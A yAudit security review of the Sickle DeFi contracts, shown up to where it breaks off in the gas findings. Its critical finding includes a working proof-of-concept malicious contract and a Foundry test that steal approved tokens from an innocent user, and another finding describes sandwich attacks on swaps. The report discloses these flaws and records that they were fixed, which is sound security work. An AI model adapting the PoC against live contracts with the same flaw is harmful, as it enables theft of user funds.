

# yAudit Sickle Review

**Review Resources:**

- None beyond the code repositories.

**Auditors:**

- Sjkelleyjr (Jackson)
- HHK

## Table of Contents

1. TOC
   {:toc}

## Review Summary

**Sickle**

The Sickle protocol provides the ability to one click zap into different protocols with farming opportunities. The MasterChef and Dforce are the 2 options currently integrated with more to come.
On the first usage of the Sickle protocol, the user creates a sickle contract that belongs to them. It acts as a smart account for strategies to work with. Once created, the user approves and calls different strategies that execute multiple actions in a single transaction saving time and gas for the user.

Architecture overview of the protocol:

<p><br></p>

The contracts of the [Sickle protocol](https://github.com/vfat-tools/sickle-contracts/tree/75ff43f6447149d0c2218bf1e6cb22632f8b213b) were reviewed over 13 days. The code review was performed by 2 auditors between 06/06/2023 and 18/06/2023. The repository was under active development during the review, but the review was limited to the latest commit at the start of the review. This was commit [75ff43f6447149d0c2218bf1e6cb22632f8b213b](https://github.com/vfat-tools/sickle-contracts/tree/75ff43f6447149d0c2218bf1e6cb22632f8b213b) for the `vfat-tools/sickle-contracts` repo.

## Scope

The scope of the review consisted of the following contracts at the specific commit:

```
contracts
├── FlashloanOpsRegistry.sol
├── Sickle.sol
├── SickleFactory.sol
├── SickleRegistry.sol
├── base
   ├── Admin.sol
   ├── CashManager.sol
   ├── Multicall.sol
   ├── PermitManager.sol
   └── SickleStorage.sol
├── libs
   └── FeesLib.sol
├── strategies
   ├── DForceStrategyOne.sol
   ├── DForceStrategyTwo.sol
   ├── MasterChefStrategy.sol
   └── StrategyBase.sol
├── stubs
   └── FlashloanStub.sol
```

After the findings were presented to the Sickle team, fixes were made and included in several PRs.

This review is a code review to identify potential vulnerabilities in the code. The reviewers did not investigate security practices or operational security and assumed that privileged accounts could be trusted. The reviewers did not evaluate the security of the code relative to a standard or specification. The review may not have identified all potential attack vectors or areas of vulnerability.

yAudit and the auditors make no warranties regarding the security of the code and do not warrant that the code is free from defects. yAudit and the auditors do not represent nor imply to third parties that the code has been audited nor that the code is free from defects. By deploying or using the code, Sickle team and users of the contracts agree to use the code at their own risk.

## Code Evaluation Matrix

| Category                 | Mark    | Description                                                                                                                    |
| ------------------------ | ------- | ------------------------------------------------------------------------------------------------------------------------------ |
| Access Control           | Good    | The appropriate functions are access controlled with the appropriate actors.                                                   |
| Mathematics              | Good    | The mathematics are simple and secured by solidity 0.8 making overflow and underflow revert.                                   |
| Complexity               | Average | The architecture is simple but some elements that could be off-chain are processed on-chain increasing the overall complexity. |
| Libraries                | Good    | The libraries used in the pull request are appropriate and used correctly.                                                     |
| Decentralization         | Average | There are some trusted actors with limited impact.                                                                             |
| Code stability           | Average | The project is still in active development and the `Zaplib.sol` was removed from the scope.                                    |
| Documentation            | Average | The contracts are documented through NatSpec comments.                                                                         |
| Monitoring               | Low     | Strategies, stubs and libs don't emit events.                                                                                  |
| Testing and verification | Average | Good test coverage with fuzzing but few exceptions that resulted in findings and no invariant tests.                           |

## Findings Explanation

Findings are broken down into sections by their respective impact:

- Critical, High, Medium, Low impact
  - These are findings that range from attacks that may cause loss of funds, impact control/ownership of the contracts, or cause any unintended consequences/actions that are outside the scope of the requirements.
- Gas savings
  - Findings that can improve the gas efficiency of the contracts.
- Informational
  - Findings including recommendations and best practices.

---

## Critical Findings

### 1. Critical - No check on Sickle's authenticity in strategies

When a user calls a strategy, they have to pass its sickle contract address.

But there is no check if this contract was deployed by the Sickle factory or is a malicious contract.

Strategies like the MasterChef strategy need to be approved by the user to deposit, it is common for some users to give maximum approval on such a contract.

Because the Strategy transfers the tokens from the `sickle.owner()` and not the `msg.sender` one could steal assets from every address having an approval on the strategy by providing a malicious implementation that could pass the different checks and return an innocent address when transferring tokens.

#### Technical Details

We take the [MasterChef strategy's](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L59) `masterChef_deposit()` function as an example.

When calling the function, the modifier `checkOwner()` is called to check if the `msg.sender` is the owner of the sickle.

[StrategyBase.sol:20](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/StrategyBase.sol#L20)

```solidity
modifier checkOwner(address sickleAddress) {
        Sickle sickle = Sickle(payable(sickleAddress));

        if (msg.sender != sickle.owner()) revert NotOwner();

        _;
}
```

Later on in the function the `sickle.owner()` is called again when transferring the ERC20 token to the sickle.

[MasterChefStrategy.sol:84](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L84)

```solidity
IERC20(zapData.tokenIn).transferFrom(
    sickle.owner(), sickleAddress, zapData.amountIn
);
```

Because there is no check in the code to make sure the passed sickle contract is legit. If someone is able to pass a contract that would return `msg.sender` on the first call, then the address of an account with an approval on the strategy on the second call, they would be able to steal the tokens.

Here is a POC:

Malicious contract that can be used to attack with `masterChef_deposit()` function.

```solidity
contract MaliciousSickle {
    address badOwner; //address of the attacker
    address innocent; //address of an innocent with an approval on the MasterChef strategy
    address public registry;

    constructor(address badOwner_, address innocent_, address registry_) {
        badOwner = badOwner_;
        innocent = innocent_;
        registry = registry_;
    }

    function owner() public view returns (address) {
        uint256 gas = gasleft();
        console.log(gas);
        //use gasleft to decide which owner to return, if calling with 500k
        //The first call should correspond to this gas left.
        if (gas == 489_661) {
            console.log(gasleft());
            return badOwner;
        }
        return innocent;
    }

    function transfer(
        address token,
        address to,
        uint256 value
    ) external payable {
        //remove transfer so we don't have to pay fee
    }

    function selfApprove(
        address token,
        address spender,
        uint256 amount
    ) external payable {
        if (IERC20(token).allowance(address(this), spender) < amount) {
            SafeTransferLib.safeApprove(token, spender, amount);
        }
    }

    function multicall(
        address[] calldata targets,
        bytes[] calldata data,
        bool[] calldata isDelegatecall,
        uint256[] calldata values
    ) external payable {
        for (uint256 i = 0; i != data.length; i++) {
            if (data[i].length == 0) {
                continue;
            }

            (bool success, bytes memory result) = isDelegatecall[i]
                ? targets[i].delegatecall(data[i])
                : targets[i].call{ value: values[i] }(data[i]);

            if (!success) {
                if (result.length == 0) revert();
                assembly {
                    revert(add(32, result), mload(result))
                }
            }
        }
    }
}
```

Test showing the contract works:

```solidity
 function test_deposit_DepositsUsingDAI_malicious(uint256 amountIn)
        public
        prank
        returns (uint256 depositedAmount)
    {
        amountIn = bound(amountIn, 500 ether, 500_000 ether);

        //funds B0B address, an innocent user that used the MasterChef strategy
        // in the past that still has an allowance on the contract
        deal(Mainnet.DAI, address(0xB0B), amountIn);
        vm.stopPrank();
        vm.prank(address(0xB0B));
        IERC20(Mainnet.DAI).approve(address(masterChefStrategy), amountIn);
        vm.startPrank(sickleOwner);

        //deploy malicious to steal funds from B0B
        MaliciousSickle maliciousSickle =
        new MaliciousSickle(sickleOwner, address(0xB0B), address(ctx.registry));

        //save prev balance
        (uint256 previousDepositedAmount,) = IMasterChef(
            Mainnet.SUSHISWAP_MASTERCHEF
        ).userInfo(2, address(maliciousSickle));
        assertEq(previousDepositedAmount, 0); //we have 0 deposit

        address[] memory routeToOther = new address[](2);
        routeToOther[0] = Mainnet.DAI;
        routeToOther[1] = Mainnet.WETH;

        MasterChefStrategy.ZapInData memory zapData = MasterChefStrategy
            .ZapInData({
            router: Mainnet.SUSHISWAP_ROUTER,
            tokenIn: Mainnet.DAI,
            amountIn: amountIn,
            routeToIntermediate: new address[](0),
            intermediateMinAmountOut: amountIn,
            routeToOther: routeToOther,
            otherMinAmountOut: 0,
            lpToken: Mainnet.SLP_DAI_WETH,
            lpTokenMinAmountOut: 0
        });

        masterChefStrategy.masterChef_deposit{ gas: 500_000 }(
            address(maliciousSickle),
            Mainnet.SUSHISWAP_MASTERCHEF,
            false,
            2,
            zapData
        );

        (depositedAmount,) = IMasterChef(Mainnet.SUSHISWAP_MASTERCHEF).userInfo(
            2, address(maliciousSickle)
        );
        console.log(depositedAmount);

        //attacker balance increased
        assertGt(depositedAmount, previousDepositedAmount);
        //fee collector didn't earn anything
        assertEq(IERC20(Mainnet.DAI).balanceOf(ctx.registry.collector()), 0);
        //BOB lost his tokens
        assertEq(IERC20(Mainnet.DAI).balanceOf(address(0xB0B)), 0);
}
```

You can copy and paste these two code blocks in the [MasterChef test file](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/test/strategies/MasterChefStrategy.t.sol)

And then run : `forge test --match-test test_deposit_DepositsUsingDAI_malicious`

#### Impact

Critical. An attacker can steal the tokens of all addresses with an approval to the strategy and pay no fees to the Vfat team.

#### Recommendation

The `checkOwner()` from [StrategyBase.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/StrategyBase.sol#L20) should call the sickle registry to make sure it's a valid contract.

Also, consider changing the `transferFrom()` method to use `msg.sender`.

#### Developer Response

Fixed in [pull request #89](https://github.com/vfat-tools/sickle-contracts/pull/89).

## High Findings

### 1. High - `dForce_compoundRewardsWithFlashloan()` and `dForce_swapAndLeverageWithFlashloan()` are prone to sandwich attacks

The functions `dForce_compoundRewardsWithFlashloan()` and `dForce_swapAndLeverageWithFlashloan()` in [DForceStrategyOne.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol) swap tokens against collateral to deposit on dForce.

But the swap can be sandwiched by MEV bots as the minimum out are calculated on-chain during the function call.

Additionally, 2 out of 3 swap options in `dForce_compoundRewardsWithFlashloan()` function, use a default amount of 1 token to calculate the minimum number of tokens to receive which also dangerously expose the swap to price change outside the MEV/sandwich attack.

#### Technical Details

In the functions `dForce_compoundRewardsWithFlashloan()` and `dForce_swapAndLeverageWithFlashloan()` the tokens are swapped against collateral token but the `amountOutMin` is calculated on-chain thus if someone swaps before the change in price the `amountOutMin` slippage check will become useless.

Additionally, 2 of the 3 swap options in `dForce_compoundRewardsWithFlashloan()` use `1e18` as the amount of token instead of the actual balance of dForce tokens.

[DForceStrategyOne.sol:L566](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L566)

```solidity
if (flashloanAsset == strategyTokens.USDCaddress) {
  data[1] = abi.encodeCall(
    IUniswapV2Router01.swapExactTokensForTokens,
    (
      sickleDFtokenBalance,
      IUniswapV2Router01(uniswapV2router).getAmountsOut(
        sickleDFtokenBalance, DFUSDCswapPath
      )[2] * 9900 / 10_000,
      DFUSDCswapPath,
      arguments.sickleAddress,
      block.timestamp
    )
  );
} else if (flashloanAsset == strategyTokens.USDTaddress) {
  data[1] = abi.encodeCall(
    IUniswapV2Router01.swapExactTokensForTokens,
    (
      sickleDFtokenBalance,
      IUniswapV2Router01(uniswapV2router).getAmountsOut(
      1 * 10 ** 18, DFUSDTswapPath
      )[3] * 9900 / 10_000,
      DFUSDTswapPath,
      arguments.sickleAddress,
      block.timestamp
      )
  );
} else if (flashloanAsset == strategyTokens.DAIaddress) {
  data[1] = abi.encodeCall(
    IUniswapV2Router01.swapExactTokensForTokens,
    (
       sickleDFtokenBalance,
       IUniswapV2Router01(uniswapV2router).getAmountsOut(
         1 * 10 ** 18, DFDAIswapPath
       )[3] * 9900 / 10_000,
       DFDAIswapPath,
       arguments.sickleAddress,
       block.timestamp
     )
   );
}
```

[DForceStrategyOne.sol:L772](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L772)

```solidity
IUniswapV2Router01.swapExactETHForTokens,
  (
    IUniswapV2Router01(uniswapV2router).getAmountsOut(
      swapAmountAfterFee, arguments.swapPath
    )[arguments.swapPath.length - 1] * 9900 / 10_000,
    arguments.swapPath,
    arguments.sickleAddress,
    block.timestamp
  )

...

IUniswapV2Router01.swapExactTokensForTokens,
  (
    swapAmountAfterFee,
    IUniswapV2Router01(uniswapV2router).getAmountsOut(
      swapAmountAfterFee, arguments.swapPath
    )[arguments.swapPath.length - 1] * 9900 / 10_000,
    arguments.swapPath,
    arguments.sickleAddress,
    block.timestamp
  )
```

#### Impact

High. Open to sandwich attack by MEV bots and when compounding rewards 2 of the 3 options don't even protect against price change.

#### Recommendation

`amountOutMin` should be calculated off-chain and passed as a function's parameter.

#### Developer Response

Fixed in [pull request #99](https://github.com/vfat-tools/sickle-contracts/pull/99).

## Medium Findings

### 1. Medium - Calling `dForce_borrowAndLeverageWithFlashloan()` or `dForce_swapAndLeverageWithFlashloan()` with an ERC20 will revert

The functions `dForce_borrowAndLeverageWithFlashloan()` and `dForce_swapAndLeverageWithFlashloan()` from the [DForceStrategyOne.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L772) will most likely revert when called using an ERC20 and not ETH.

This is due to the two functions doing two transfers from the owner to the sickle instead of one.

#### Technical Details

In the `dForce_borrowAndLeverageWithFlashloan()` a first transfer is done from the sickle owner to the sickle.

[DForceStrategyOne.sol:L922](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L922)

```solidity
SafeTransferLib.safeTransferFrom(
  arguments.suppliedToken,
  sickle.owner(),
  address(sickle),
  arguments.suppliedAmount
);
```

Later on in the function, a second transfer is done but because the tokens have already been transferred and this time the caller is the sickle and not the strategy so the lack of approval or balance left will most likely make it revert.

Even if not reverting, this behavior is not wanted as the tokens will be sent to the sickle and the owner will have to make an extra transaction to redeem them.

[DForceStrategyOne.sol:L963](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L963)

```solidity
data[0] = abi.encodeCall(
  IERC20.transferFrom,
  (
    sickle.owner(),
    arguments.sickleAddress,
    suppliedAmountAfterFee
  )
);
```

This behavior is essentially the same in `dForce_swapAndLeverageWithFlashloan()`, but the second caller will be the strategy and not the sickle.

[DForceStrategyOne.sol:L734](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L734)

```solidity
SafeTransferLib.safeTransferFrom(
  arguments.swapPath[0],
  sickle.owner(),
  address(sickle),
  arguments.swapSupplyAmount
);
```

[DForceStrategyOne.sol:L785](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L785)

```solidity
SafeTransferLib.safeTransferFrom(
  arguments.swapPath[0],
  sickle.owner(),
  arguments.sickleAddress,
  swapAmountAfterFee
);
```

#### Impact

Medium. The two functions aren't working as expected.

#### Recommendation

Remove the extra transfers.

Consider adding extra tests for these two scenarios as they don't seem tested when looking at the code coverage.

#### Developer Response

Fixed in [pull request #88](https://github.com/vfat-tools/sickle-contracts/pull/88).

### 2. Medium - Malicious `router` in `masterChef_deposit` can be used to bypass fee payment

#### Technical Details

The [`router`'s `WETH` variable is used as the `tokenToCharge` when the `tokenIn` is `ETH`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L91), in this case a malicious router can be used to supply a non-WETH address as the token to charge when depositing ETH.

#### Impact

Medium. Fees will not be charged to the user in this case.

#### Recommendation

Do not rely on the `router`'s `WETH` variable for fee payment.

#### Developer Response

Fixed in [pull request #97](https://github.com/vfat-tools/sickle-contracts/pull/97).

### 3. Medium - Providing a different `zapData.tokenOut` allows optional fees

In the MasterChef strategy the functions `masterChef_withdraw()` and `masterChef_harvest()` charge fees using the `zapData.tokenOut` instead of the final token of the route provided. If someone zaps into DAI but changes the `zapData.tokenOut` variable to USDC before submitting the transaction then fees will be calculated on the USDC balance of the sickle which will likely be 0.

#### Technical Details

The `masterChef_withdraw()` and `masterChef_harvest()` charge fees for Vfat team after the `zapOut()`, if the final token of the zap is different from `zapData.tokenOut` then one can not pay fees as the `baseAmount` will be determined using the balance of `tokenOut` of the sickle contract.

[MasterChefStrategy:L190](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L190)

```solidity
// charge fees and sweep
uint256 baseAmount;
if (zapData.tokenOut == ETH) {
  baseAmount = sickleAddress.balance;
} else {
  baseAmount = IERC20(zapData.tokenOut).balanceOf(sickleAddress);
}
```

The only downside is that the final tokens of the zap will stay on the sickle contract, but the owner can claim them any time in a future transaction.

#### Impact

Medium. One can easily bypass fees while still using the sickle product by just changing one parameter.

#### Recommendation

Consider using `zapData.routeToOther` & `zapData.routeToIntermediate` to apply fees or apply fees directly on the LP token.

#### Developer Response

Fixed in [pull request #98](https://github.com/vfat-tools/sickle-contracts/pull/98).

### 4. Medium - `masterChef_deposit()` will always fail if `hasReferrer = true`

The MasterChef strategy allows depositing on two kinds of contracts:

- Classic SushiSwap MasterChef
- Modified MasterChef that takes a ref address

But the ABI encoding is wrong in the `masterChef_deposit()`, `masterChef_harvest()` and `masterChef_compound()`, depositing in a modified MasterChef will always revert as the function signature is incorrect.

#### Technical Details

In the [MasterChef](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L59) strategy, the deposit function allows depositing on two kinds of contracts.

If a user wants to deposit on a contract that takes a ref address then the user will have to put `hasReferrer = true`. This changes the function signature in the multicall to add a ref address, but this signature is incorrect.

It is currently `"deposit(uint256,address,address)"` but should be `"deposit(uint256,uint256,address)"` as the second parameter is `uint256` and not `address` causing the transaction to revert.

[MasterChefStrategy.sol:L130](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L130)

```solidity
if (hasReferrer) {
  data2[1] = abi.encodeWithSignature(
    "deposit(uint256,address,address)",
      pid,
      lpTokenBalanceAfterZap - lpTokenBalanceBeforeZap,
      address(0)
  );
} else {
```

#### Impact

Medium. User won't be able to use modified MasterChef that takes a ref address.

#### Recommendation

Modify the signature in the `abi.encode()`.

```diff
- "deposit(uint256,address,address)"
+ "deposit(uint256,uint256,address)"
```

Consider adding extra tests for this scenario as they don't seem tested when looking at the code coverage.

#### Developer Response

Fixed in [pull request #86](https://github.com/vfat-tools/sickle-contracts/pull/86).

## Low Findings

### 1. Low - `currentLeverageLevel` doesn't take flashloan premium into account

In the function `dForce_compoundRewardsWithFlashloan()` the rewards are swapped and deposited back while trying to keep the same leverage ratio by borrowing and depositing more tokens.

To do this the function calculates the leverage ratio and then takes a flashloan that it will reimburse by borrowing some tokens against the collateral.

But the calculation doesn't take the flashloan fee into account which can result in the position being in a higher leverage than expected and bring it slightly closer to the max LTV and thus to risk of liquidation.

#### Technical Details

In the [DForceStrategyOne.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L517) the function `dForce_compoundRewardsWithFlashloan()` doesn't take the flashloan fee into account when calculating the leverage.

It is first calculated in [DForceStrategyOne.sol:L611](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#LL611C6-L611C6)

```solidity
uint256 currentLeverageLevel = 100
            * (
                IERC20(arguments.targetCollateralItoken).balanceOf(
                    arguments.sickleAddress
                )
                    * DForceTokenInterface(arguments.targetCollateralItoken)
                        .exchangeRateCurrent() / 1e18
            )
            / (
                IERC20(arguments.targetCollateralItoken).balanceOf(
                    arguments.sickleAddress
                )
                    * DForceTokenInterface(arguments.targetCollateralItoken)
                        .exchangeRateCurrent() / 1e18
                    - DForceTokenInterface(arguments.targetCollateralItoken)
                        .borrowBalanceCurrent(arguments.sickleAddress)
            );
```

and then applied to the amount of reward being compounded to calculate the corresponding amount of tokens to borrow.

[DForceStrategyOne.sol:L638](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L638)

```solidity
flashloanAmounts[1] = capitalAmounts[1] * (currentLeverageLevel - 100) / 100;
```

#### Impact

Low. User can end up in a slightly riskier leverage position than expected if the flashloan provider selected has fees.

#### Recommendation

Consider applying the flashloan fee to `flashloanAmounts` calculation to not increase the leverage ratio.

#### Developer Response

Acknowledge. After consulting with the team we decided that, while the issue is noteworthy, we will not address it with a fix. Applying the flashloan fee to the flashloanAmounts calculation would make the function more complex, and we are talking about a very small deviation (0.01% in most cases, 0.3% at most if we can only source flashloan liquidity from a UniswapV2 clone). Furthermore users will be warned about fees in the UI and how it will affect their position, whether they are opening, compounding or closing it.

### 2. Low - Setting `msg.value > 0` when using ERC20 token will result in loss of funds

The functions `masterChef_deposit()`, `dForce_swapAndLeverageWithFlashloan()`, `dForce_borrowAndLeverageWithFlashloan()` and `dForce_leverageWithFlashloan()` are all `payable`, but there is no check if `msg.value` is equal to the amount provided in the params or when interacting with an ERC20 that `msg.value = 0`.

This could result in ETH being lost on the strategies as they will not be transferred to the sickle contract.

#### Technical Details

- [`masterChef_deposit()`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#LL73) doesn't check that `msg.value = 0` when using an ERC20.
- [`dForce_swapAndLeverageWithFlashloan()`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L713), [`dForce_borrowAndLeverageWithFlashloan()`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L904) and [`dForce_leverageWithFlashloan()`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L253)
  don't check that `msg.value = 0` when using an ERC20 and that `msg.value = arguments.swapSupplyAmount` or `msg.value = suppliedAmount` or `msg.value = capitalAmount` respectively when using ETH.

#### Impact

Low. If a user or the UI he's interacting with makes a mistake, some ETH will be lost.

#### Recommendation

Consider checking the `msg.value` and revert if it doesn't match the expected value.

#### Developer Response

Fixed in [pull request #93](https://github.com/vfat-tools/sickle-contracts/pull/93).

### 3. Low - Inconsistent amount passed to `_chargeFees()` may result in charging extra tokens

Multiple functions like `dForce_claimDFTokenRewards()`, `masterChef_harvest()` and `masterChef_withdraw()` charge fees using the sickle's balance instead of the rewards/tokens received like some other functions do.

In the case of the sickle having a previous balance of tokens then the fee will be higher than what it should have been.

Additionally, `dForce_leverageWithFlashloan()` uses `msg.value` instead of `capitalAmount` which could lead to extra fees if `msg.value > capitalAmount`.

#### Technical Details

The function [`dForce_claimDFTokenRewards()`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L162) [`masterChef_harvest()`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L257) and [`masterChef_withdraw()`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L191) charge a fee using the sickle's balance instead of calculating the amount of rewards/tokens where claimed/withdrawn.

[`dForce_leverageWithFlashloan()`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L289) uses `msg.value` instead of `capitalAmount`.

#### Impact

Low. Most of the time the user's sickle contract will not hold tokens prior to the transaction nor the `msg.value` will differ but if it does then the fee will be higher than it's supposed to be.

#### Recommendation

Consider using the amount of token received when charging fees.

For example in `dForce_claimDFTokenRewards()` by setting `DFtokenBalanceAfterClaim` right after claiming rewards instead of in the later `if (isSweepingToOwner || msg.sender != sickle.owner()) {` and then calculate the rewards claimed by subtracting the previous balance.

#### Developer Response

Fixed in [pull request #94](https://github.com/vfat-tools/sickle-contracts/pull/94).

### 4. Low - `calculatePremiums` calls fail if `FLASHLOAN_PREMIUM_TOTAL` is 0

#### Technical Details

In Aave V3, the `poolConfigurator` can [update the `_flashLoanPremiumTotal` variable](https://github.com/aave/aave-v3-core/blob/29ff9b9f89af7cd8255231bc5faf26c3ce0fb7ce/contracts/protocol/pool/Pool.sol#L661). If this is set to 0 [the premium calculation for Aave v3 flash loans will revert](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/stubs/FlashloanStub.sol#L514) for the given pool due to underflow.

#### Impact

Low. It's unlikely that the variable will be set to 0.

#### Recommendation

Check if the [`aaveV3FlashloanPremiumInBasisPoints`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/stubs/FlashloanStub.sol#L509) is > 0 before calculating the premium for the given pool as is done for the [amount](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/stubs/FlashloanStub.sol#L512).

#### Developer Response

Fixed in [pull request #87](https://github.com/vfat-tools/sickle-contracts/pull/87).

### 5. Low - Inconsistent `SafeTransferLib` usage

The sickle and strategy functions use `SafeTransferLib` while other strategy functions use straight `transfer()` and `transferFrom()`.

#### Technical Details

In the [MasterChefStrategy.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L83) most transfers don't use `SafeTransferLib` while in [CacheManager.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/base/CashManager.sol) all transfers use the library.

#### Impact

Low. Not using `SafeTransferLib` might cause transfer of some tokens to not revert when they should.

#### Recommendation

To improve code clarity and make sure the transfer reverts if it fails consider using `SafeTransferLib` everywhere.

#### Developer Response

Fixed in [pull request #90](https://github.com/vfat-tools/sickle-contracts/pull/90).

## Gas Saving Findings

### 1. Gas - Consider using `msg.sender` instead of `sickle.owner()` when `onlyOwner()`

The `sickle.owner()` can be replaced by `msg.sender` for functions that are callable only by the owner.

#### Technical Details

`sickle.owner()` is not always needed, like in [`dForce_borrowAndLeverageWithFlashloan()`](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/DForceStrategyOne.sol#L894) where it's called twice, `msg.sender` would work since it's `onlyOwner()`.

#### Impact

Gas savings.

#### Recommendation

Replace `sickle.owner()` by `msg.sender` if the function is callable only by the owner.

#### Developer Response

Fixed in [pull request #92](https://github.com/vfat-tools/sickle-contracts/pull/92).

### 2. Gas - Use `enum` instead of `string` for `flashloanProviderName`

In the flashloanSub, the `initiateFlashloan()` and `calculatePremiums()` use a string to determine which flashloan provider should be used.

To match the provider, the string needs to be hashed and ABI encoded which uses extra gas especially if the provider is UniswapV3 as it will have to pass all the previous provider checks and be hashed multiple times.

#### Technical Details

In the `initiateFlashloan()` and `calculatePremiums()` of the [FlashloanStub.sol](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/stubs/FlashloanStub.sol#L160) the provider is ABI encoded and hashed, same for the name of the corresponding provider.

All this adds extra computation that is not needed.

#### Impact

Gas savings.

#### Recommendation

Consider creating an enum for providers and use this type as `flashloanProviderName` instead of a string.

```solidity
enum Provider {
  AAVEV3,
  AAVEV2,
  ...
}


...

if (flashloanProviderName == Provider.AAVEV2) {
...
} else if (flashloanProviderName == Provider.AAVEV3) {
...
```

#### Developer Response

Fixed in [pull request #83](https://github.com/vfat-tools/sickle-contracts/pull/83).

### 3. Gas - Useless `flashloanOpsRegistry == address(0)` check in `initiateFlashloan()`

The function `initiateFlashloan()` validates if the `flashloanOpsRegistry == address(0), but it is set in the constructor and cannot be changed so it's most likely that it will never be `address(0)`.

#### Technical Details

